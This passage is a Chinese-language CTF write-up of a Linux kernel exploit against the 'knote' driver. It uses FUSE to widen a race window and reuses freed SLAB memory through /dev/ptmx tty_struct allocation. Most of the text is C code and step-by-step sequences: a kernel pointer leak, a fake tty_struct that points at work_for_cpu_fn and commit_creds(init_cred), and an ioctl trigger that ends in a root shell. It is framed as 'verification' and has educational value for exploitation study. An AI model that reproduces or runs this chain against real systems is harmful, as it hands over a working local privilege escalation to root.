    } else {
        log.error("Exploit failed with error code: %d", ret);
    }

    return ret;
}
```

### 4-1. 验证流程总览

knote驱动程序竞态条件漏洞的技术验证流程构建了一个从信息泄露到控制流影响的完整验证链。整个流程采用模块化、分阶段的设计架构，通过FUSE技术扩展竞态窗口、利用SLAB分配器的LIFO行为实现内存重用、通过信号量机制实现进程间精确同步。验证流程分为五个逻辑阶段，每个阶段都有明确的技术目标和验证标准。

**验证流程五个核心阶段**：


```mermaid
flowchart TD
    A[开始验证流程] --> B[阶段一: 环境初始化与资源准备]
    B --> C[阶段二: 信息泄露与内核地址获取]
    C --> D[阶段三: 伪造数据结构构造]
    D --> E[阶段四: 内存篡改与控制流劫持验证]
    E --> F[阶段五: 权限验证与资源清理]
    F --> G[验证完成]

    style A fill:#e8f5e9
    style G fill:#e8f5e9
    style B fill:#e3f2fd
    style C fill:#fff3e0
    style D fill:#f3e5f5
    style E fill:#fce4ec
    style F fill:#e3f2fd
```

**核心技术机制**：

1. **FUSE子系统**：通过内存映射和页面异常处理机制扩展竞态窗口，将纳秒级窗口扩展为毫秒级可控窗口
2. **信号量同步**：通过三组POSIX信号量实现父子进程间的精确同步控制
3. **全局数据源管理**：通过全局上下文结构管理FUSE读取的数据源，实现数据的可靠传递
4. **SLAB分配器利用**：利用LIFO特性实现可靠的内存重用，为类型混淆创造条件
5. **模块化阶段设计**：每个验证阶段有明确的输入输出和验证目标，便于调试和验证

### 4-2. 阶段一：环境初始化与资源准备

**核心执行流程**

环境初始化阶段负责建立验证所需的基础设施，包括CPU绑定、全局上下文初始化、信号量创建、FUSE子系统初始化和设备打开。

**环境初始化流程**：


```mermaid
flowchart TD
    A[开始环境初始化] --> B[CPU核心绑定与状态保存]
    B --> C[全局FUSE上下文初始化]
    C --> D[信号量数组创建与初始化]
    D --> E[FUSE子系统初始化]
    E --> E1[初始化FUSE库]
    E --> E2[启动FUSE守护进程]
    E --> E3[创建FUSE内存映射]
    E3 --> E4[映射0: GET_CHUNK操作]
    E3 --> E5[映射1: EDIT_CHUNK操作]
    E --> F[打开漏洞设备]
    F --> G[环境初始化完成]

    style A fill:#e8f5e9
    style G fill:#e8f5e9
    style B fill:#e3f2fd
    style C fill:#e3f2fd
    style D fill:#e3f2fd
    style E fill:#e3f2fd
    style F fill:#e3f2fd
```

**CPU绑定与状态保存**：

1. 将验证进程绑定到特定CPU核心（CPU0），确保所有内存分配和释放操作都在同一个CPU的SLAB缓存中进行
2. 保存当前进程状态，包括寄存器状态、信号处理器设置、内存映射状态等
3. 为异常恢复和状态重置提供基准

**FUSE子系统初始化**：

```c
// 初始化FUSE子系统
static int init_fuse_subsystem(void)
{
    if (fuse_init(2) < 0) {
        return -1;
    }
    if (fuse_start() < 0) {
        return -1;
    }
    if (fuse_create_mapping(0, 2, 1, 1) < 0) {
        return -1;
    }
    if (fuse_create_mapping(1, 2, 1, 1) < 0) {
        return -1;
    }
    return 0;
}
```

1. 初始化FUSE库，创建两个独立的FUSE内存映射
2. 启动FUSE守护进程，运行在独立的进程空间中
3. 创建两个FUSE映射文件，分别用于GET_CHUNK和EDIT_CHUNK操作
4. 每个映射文件对应一组独立的信号量，用于进程间同步

**设备访问初始化**：

```c
// 打开漏洞设备
dev_fd = open("/dev/knote", O_RDONLY);
if (dev_fd < 0) {
    return -1;
}
```

1. 打开目标设备文件`/dev/knote`，获取文件描述符
2. 验证设备状态和访问权限
3. 为后续IOCTL操作建立基础

### 4-3. 阶段二：信息泄露与内核地址获取

**核心执行流程**

信息泄露阶段利用GET_CHUNK命令的竞态条件，在内存被释放后立即分配tty_struct，通过读取新对象内容获取内核地址。

**信息泄露阶段流程**：


```mermaid
flowchart TD
    A[开始信息泄露阶段] --> B["分配目标内存块<br>add_chunk(TTY_STRUCT_SIZE)"]
    B --> C[启动GET_CHUNK操作访问FUSE映射0]
    C --> D[FUSE read回调被触发进入阻塞]
    D --> D1[释放read_hit信号量通知主进程]
    D --> D2[等待read_ready信号量]

    D --> E[主进程执行竞态操作]
    E --> E1[执行delete_chunk释放内存]
    E --> E2[open分配tty_struct重用内存]

    D2 --> F[主进程释放read_ready信号量]
    F --> G[FUSE恢复执行读取数据]
    G --> H[从全局数据源复制tty_struct内容]
    H --> I[释放read_done信号量]
    I --> J[主进程接收读取数据]
    J --> K[解析内核地址信息]
    K --> L[信息泄露完成]

    style A fill:#e8f5e9
    style L fill:#e8f5e9
    style D fill:#fff3e0
    style E fill:#fce4ec
    style G fill:#e3f2fd
    style J fill:#e3f2fd
```

**竞态窗口控制序列**：


```mermaid
sequenceDiagram
    participant 主进程 as 主控制进程
    participant 驱动程序 as knote驱动程序
    participant FUSE守护进程 as FUSE守护进程
    participant SLAB分配器 as SLAB分配器
    participant tty子系统 as tty子系统

    主进程->>驱动程序: ioctl(ADD_CHUNK, TTY_STRUCT_SIZE)
    驱动程序-->>主进程: 分配内存成功

    主进程->>驱动程序: ioctl(GET_CHUNK, 映射0地址)
    驱动程序->>驱动程序: 检查chunks[0].buf ≠ NULL
    驱动程序->>FUSE守护进程: copy_to_user访问FUSE映射

    Note over FUSE守护进程: 进入read回调函数
    FUSE守护进程->>FUSE守护进程: 确定file_index=0
    FUSE守护进程->>主进程: sem_post(read_hit_sems[0])
    FUSE守护进程->>FUSE守护进程: sem_wait(read_ready_sems[0])阻塞

    Note over 主进程: 收到读取命中信号
    主进程->>驱动程序: ioctl(DELETE_CHUNK, 0)
    驱动程序->>SLAB分配器: kfree释放内存
    驱动程序-->>主进程: 释放成功

    主进程->>tty子系统: open("/dev/ptmx")
    tty子系统->>SLAB分配器: 分配tty_struct
    SLAB分配器-->>tty子系统: 返回重用内存地址

    主进程->>FUSE守护进程: sem_post(read_ready_sems[0])
    FUSE守护进程->>FUSE守护进程: 继续执行read回调
    FUSE守护进程->>驱动程序: 返回tty_struct数据

    Note over 驱动程序: copy_to_user完成
    驱动程序-->>主进程: 返回GET_CHUNK结果

    FUSE守护进程->>主进程: sem_post(read_done_sems[0])
    主进程->>主进程: 解析内核地址信息
```

**FUSE read回调执行细节**：

```c
static int fuse_ops_read(const char *path, char *buf, size_t size, off_t offset,
                        struct fuse_file_info *fi) {
    (void)fi;  // 未使用的参数

    int file_index = -1;

    // 确定是哪个FUSE映射文件
    for (int i = 0; i < g_fuse_ctx.control->file_count; i++) {
        char filename[256];
        snprintf(filename, sizeof(filename), "/%s_%d", FUSE_FILE_BASE, i);
        if (strcmp(path, filename) == 0) {
            file_index = i;
            break;
        }
    }

    if (file_index < 0) {
        return -ENOENT;
    }

    // 检查偏移和大小参数
    if (offset < 0 || offset >= (off_t)g_fuse_ctx.control->page_size) {
        return 0;
    }

    size_t remaining = g_fuse_ctx.control->page_size - offset;
    if (size > remaining) {
        size = remaining;
    }

    // 发送读取命中信号，通知主进程
    sem_post(&g_fuse_ctx.control->read_hit_sems[file_index]);

    // 等待主进程的读取就绪信号
    sem_wait(&g_fuse_ctx.control->read_ready_sems[file_index]);

    // 从全局数据源读取数据
    if (g_fuse_ctx.read_data_source) {
        char *src = (char*)g_fuse_ctx.read_data_source + offset;
        memcpy(buf, src, size);
    } else {
        memset(buf, 0, size);
    }

    // 发送读取完成信号
    sem_post(&g_fuse_ctx.control->read_done_sems[file_index]);

    return size;
}
```

在GET_CHUNK操作触发FUSE read回调时，执行以下精确控制流程：

1. **文件识别**：回调函数根据访问路径确定是哪个FUSE映射文件（file_index=0或1）
2. **参数验证**：检查偏移量和大小参数的有效性，确保不越界访问
3. **同步控制**：通过信号量实现三层同步机制：
    - 发送`read_hit_sems`信号通知主进程已进入FUSE回调
    - 等待`read_ready_sems`信号，阻塞执行直到主进程允许继续
    - 发送`read_done_sems`信号通知主进程读取已完成
4. **数据读取**：从全局数据源`g_fuse_ctx.read_data_source`复制数据到目标缓冲区
5. **返回结果**：返回实际读取的字节数，完成FUSE请求处理

**内存重用机制**：

```c
/* 分配目标内存 */
add_chunk(TTY_STRUCT_SIZE);

/* 设置FUSE竞态读取 */
evil_fuse_mmap = (char *)fuse_get_fuse_memory_addr(0);
RUN_JOB(get_chunk, 0, evil_fuse_mmap);

/* 触发竞态条件 */
fuse_wait_read_hit(0);
delete_chunk(0);

/* 分配tty对象在释放的内存中 */
tty_fd = open("/dev/ptmx", O_RDWR);
if (tty_fd < 0) {
    return -1;
}

/* 完成FUSE读取以获取内核数据 */
fuse_signal_read_ready(0);
fuse_wait_read_done(0);
sleep(1);
```

1. 通过ADD_CHUNK分配与tty_struct相同大小的内存块（0x2c0字节）
2. GET_CHUNK操作触发FUSE read回调，进入阻塞状态
3. 在FUSE阻塞期间执行DELETE_CHUNK释放目标内存
4. 立即通过open("/dev/ptmx")分配tty_struct，SLAB分配器的LIFO特性确保重用刚释放的内存
5. 恢复FUSE执行，读取tty_struct内容获取内核指针

**CONFIG_INIT_ON_FREE绕过策略**：
当内核启用`CONFIG_INIT_ON_FREE`配置时，验证程序通过以下策略绕过保护：

1. 不依赖释放内存的残留数据，而是读取新分配的、已初始化的`tty_struct`对象内容
2. tty_struct在分配后会进行部分初始化，设置tty_operations指针等合法字段
3. 验证程序读取的是tty子系统设置的合法指针，这些指针包含内核地址信息

### 4-4. 阶段三：伪造数据结构构造

**核心执行流程**

基于阶段二获取的内核地址信息，构造伪造的tty_struct数据，准备用于内存篡改的payload。

**数据结构构造流程**：

```mermaid
flowchart TD
    A[开始数据结构构造] --> B[基于内核偏移计算运行时地址]
    B --> C[work_for_cpu_fn地址计算]
    B --> D[commit_creds地址计算]
    B --> E[init_cred地址计算]

    C --> F[复制原始tty_struct数据]
    D --> F
    E --> F

    F --> G[修改关键字段]
    G --> H[设置tty_operations指针]
    G --> I[设置自引用指针]
    G --> J[设置参数字段]

    H --> K[将伪造数据写入全局数据源]
    I --> K
    J --> K

    K --> L[数据结构构造完成]

    style A fill:#e8f5e9
    style L fill:#e8f5e9
    style B fill:#e3f2fd
    style F fill:#fff3e0
    style G fill:#fce4ec
    style K fill:#e3f2fd
```

**关键字段修改策略**：

```c
/* 计算运行时内核地址 */
size_t work_for_cpu_fn = kernel_offset + WORK_FOR_CPU_FN;
size_t commit_creds_addr = kernel_offset + COMMIT_CREDS;
size_t init_cred_addr = kernel_offset + INIT_CRED;

/* 构建恶意tty结构 */
fake_tty_data[12] = work_for_cpu_fn;
fake_tty_data[3] = tty_struct_addr;
fake_tty_data[4] = commit_creds_addr;
fake_tty_data[5] = init_cred_addr;

/* 准备FUSE缓冲区以进行覆盖 */
fuse_write_data(0, (char *)fake_tty_data, TTY_STRUCT_SIZE);
```

验证程序在构造伪造的tty_struct数据时，采用以下修改策略：

1. **基础数据保留**：复制原始tty_struct数据作为基础，保持大部分字段不变
2. **关键字段选择**：只修改少数关键控制流字段，避免触发内核完整性检查
3. **指针重定向**：修改tty_operations指针，使其指向特定的内核函数
4. **参数准备**：在适当位置设置函数执行所需的参数
5. **完整性保持**：保持magic字段等关键验证字段不变，确保通过基本检查

**全局数据源管理**：
验证程序通过全局变量`g_fuse_ctx.read_data_source`管理FUSE读取的数据源：

1. 在信息泄露阶段，这个数据源用于接收从内核读取的tty_struct数据
2. 在数据结构构造阶段，验证程序将伪造的tty_struct数据写入这个数据源
3. 在内存篡改阶段，EDIT_CHUNK操作从该数据源读取伪造数据
4. 这种集中式数据管理简化了数据传递流程，提高了可靠性

### 4-5. 阶段四：内存篡改与控制流劫持验证

**核心执行流程**

利用EDIT_CHUNK命令的竞态条件，将阶段三构造的伪造数据写入新分配的tty_struct，触发控制流重定向。

**内存篡改阶段流程**：

```mermaid
flowchart TD
    A[开始内存篡改阶段] --> B[清理先前状态<br>关闭tty_fd]
    B --> C["重新分配目标内存<br>add_chunk(TTY_STRUCT_SIZE)"]
    C --> D[启动EDIT_CHUNK操作访问FUSE映射1]
    D --> E[FUSE read回调被触发进入阻塞]
    E --> E1[释放read_hit信号量通知主进程]
    E --> E2[等待read_ready信号量]

    D --> F[主进程执行竞态操作]
    E2 --> F
    F --> F1[执行delete_chunk释放内存]
    F --> F2[open分配tty_struct重用内存]

    F --> G[主进程释放read_ready信号量]
    G --> H[FUSE恢复执行写入数据]
    H --> I[从全局数据源复制伪造数据]
    I --> J[将伪造数据写入tty_struct]
    J --> K[释放read_done信号量]
    K --> L[主进程确认写入完成]
    L --> M[触发ioctl操作]
    M --> N[控制流重定向验证]
    N --> O[内存篡改完成]

    style A fill:#e8f5e9
    style O fill:#e8f5e9
    style B fill:#e3f2fd
    style C fill:#e3f2fd
    style D fill:#e3f2fd
    style E fill:#fff3e0
    style F fill:#fce4ec
    style H fill:#e3f2fd
    style M fill:#f3e5f5
```

**EDIT_CHUNK竞态控制序列**：

```mermaid
sequenceDiagram
    participant 主进程 as 主控制进程
    participant 驱动程序 as knote驱动程序
    participant FUSE守护进程 as FUSE守护进程
    participant SLAB分配器 as SLAB分配器
    participant tty子系统 as tty子系统
    participant 内核执行流 as 内核执行流

    主进程->>驱动程序: ioctl(EDIT_CHUNK, 映射1地址)
    驱动程序->>驱动程序: 检查chunks[0].buf ≠ NULL
    驱动程序->>FUSE守护进程: copy_from_user访问FUSE映射

    Note over FUSE守护进程: 进入read回调函数(file_index=1)
    FUSE守护进程->>FUSE守护进程: 确定file_index=1
    FUSE守护进程->>主进程: sem_post(read_hit_sems[1])
    FUSE守护进程->>FUSE守护进程: sem_wait(read_ready_sems[1])阻塞

    Note over 主进程: 收到读取命中信号
    主进程->>驱动程序: ioctl(DELETE_CHUNK, 0)
    驱动程序->>SLAB分配器: kfree释放内存
    驱动程序-->>主进程: 释放成功

    主进程->>tty子系统: open("/dev/ptmx")
    tty子系统->>SLAB分配器: 分配tty_struct
    SLAB分配器-->>tty子系统: 返回重用内存地址

    tty子系统->>tty子系统: 开始tty_struct初始化
    Note over tty子系统: 关键竞态窗口: 初始化未完成

    主进程->>FUSE守护进程: sem_post(read_ready_sems[1])
    FUSE守护进程->>FUSE守护进程: 继续执行read回调
    FUSE守护进程->>驱动程序: 返回伪造的tty_struct数据

    Note over 驱动程序: copy_from_user完成
    Note over tty子系统: 伪造数据写入tty_struct

    FUSE守护进程->>主进程: sem_post(read_done_sems[1])

    主进程->>tty子系统: ioctl(tty_fd, cmd, arg)
    tty子系统->>tty子系统: 查找tty_operations指针
    tty子系统->>内核执行流: 跳转到被篡改的函数地址
    内核执行流->>内核执行流: 执行预设代码逻辑
```

**时序精确控制机制**：

```c
/* 清理先前的tty对象 */
close(tty_fd);

/* 重新分配易受利用的对象 */
add_chunk(TTY_STRUCT_SIZE);

/* 设置FUSE竞态写入 */
evil_fuse_mmap = (char *)fuse_get_fuse_memory_addr(1);
RUN_JOB(edit_chunk, 0, evil_fuse_mmap);

/* 触发竞态条件 */
fuse_wait_read_hit(1);
delete_chunk(0);

/* 分配具有恶意结构的tty */
tty_fd = open("/dev/ptmx", O_RDWR);
if (tty_fd < 0) {
    return -1;
}

/* 完成FUSE写入以覆盖tty结构 */
fuse_signal_read_ready(1);
fuse_wait_read_done(1);
sleep(1);

/* 触发受控的ioctl以执行ROP链 */
ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf);
```

内存篡改阶段的成功关键在于精确的时序控制：

1. **快速响应**：主进程在收到`read_hit_sems[1]`信号后立即执行竞态操作
2. **最小延迟**：在delete_chunk和open操作后立即释放`read_ready_sems[1]`信号
3. **时机选择**：控制信号释放时机，确保在tty_struct开始初始化但关键字段尚未设置时恢复FUSE执行
4. **完成确认**：通过`read_done_sems[1]`信号确认数据写入完成

### 4-6. 阶段五：权限验证与资源清理

**核心执行流程**

验证控制流重定向的效果，检查权限状态变化，确认验证流程的完整性。

**权限验证与资源清理流程**：

```mermaid
flowchart TD
    A[开始权限验证阶段] --> B[权限状态检查]
    B --> C[检查当前进程UID]
    B --> D[检查有效用户ID]
    B --> E[检查组ID]
    B --> F[检查能力集]

    C --> G{是否为root?}
    D --> G
    E --> G
    F --> G

    G -->|是| H[权限提升验证成功]
    G -->|否| I[权限提升验证失败]

    H --> J[清理FUSE资源]
    I --> J

    J --> K[卸载FUSE文件系统]
    J --> L[关闭文件描述符]
    J --> M[停止FUSE守护进程]
    J --> N[释放全局数据源]
    J --> O[销毁信号量]

    K --> P[恢复系统状态]
    L --> P
    M --> P
    N --> P
    O --> P

    P --> Q[验证流程完成]

    style A fill:#e8f5e9
    style Q fill:#e8f5e9
    style B fill:#e3f2fd
    style H fill:#e8f5e9
    style I fill:#ffebee
    style J fill:#fff3e0
    style P fill:#e3f2fd
```

**权限验证机制**：

```c
/* 验证权限状态 */
if (getuid() != 0) {
    return -1;
}
system("umount -f /tmp/fuse 2>/dev/null");
/* 启动root shell */
get_root_shell();
```

验证程序通过多层次机制验证权限状态变化：

1. **用户ID检查**：通过`getuid()`系统调用检查当前进程的用户ID，root用户的UID为0
2. **有效用户ID检查**：通过`geteuid()`检查有效用户ID，确认权限提升的实际效果
3. **组ID检查**：通过`getgid()`和`getegid()`检查组ID和有效组ID
4. **能力检查**：通过`capget()`系统调用检查进程的能力集，确认特权能力状态
5. **操作验证**：尝试执行需要root权限的操作，如访问特权文件、修改系统配置等

### 4-7. 技术总结

knote驱动程序竞态条件漏洞的技术验证流程基于完整的实现代码，展示了一个从信息泄露到控制流影响的完整验证链。验证成功的关键在于多个技术组件的协同工作：FUSE技术通过内存映射和页面异常处理机制扩展竞态窗口，将纳秒级窗口扩展为毫秒级可控窗口，如`fuse_ops_read`回调中通过信号量实现三层同步控制（`read_hit_sems`、`read_ready_sems`、`read_done_sems`）确保进程间精确同步；SLAB分配器LIFO行为的精确利用确保内存重用的可靠性，为类型混淆创造条件；全局数据源`g_fuse_ctx.read_data_source`管理机制实现数据的可靠传递，在信息泄露阶段接收内核数据，在内存篡改阶段提供伪造数据。验证程序采用模块化的阶段设计，每个阶段有明确的验证目标和可靠的实现机制，通过`phase1_leak_pointers`实现信息泄露、`phase2_build_fake_struct`构造伪造数据结构、`phase3_execute_exploit`执行内存篡改、`phase4_verify_privileges`验证权限提升，确保验证的可靠性和可重复性。整个验证流程在多种内核安全机制（CONFIG_INIT_ON_FREE、KASLR、SMAP/SMEP等）的限制下仍然能够成功执行，充分说明了内核并发漏洞的潜在风险，并为内核安全防护提供了重要的技术参考。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/FUSE3
- https://www.anquanke.com/post/id/193939#h3-10
- https://github.com/arttnba3/Linux-kernel-exploitation/tree/main/CTF/D^3CTF2019/knote
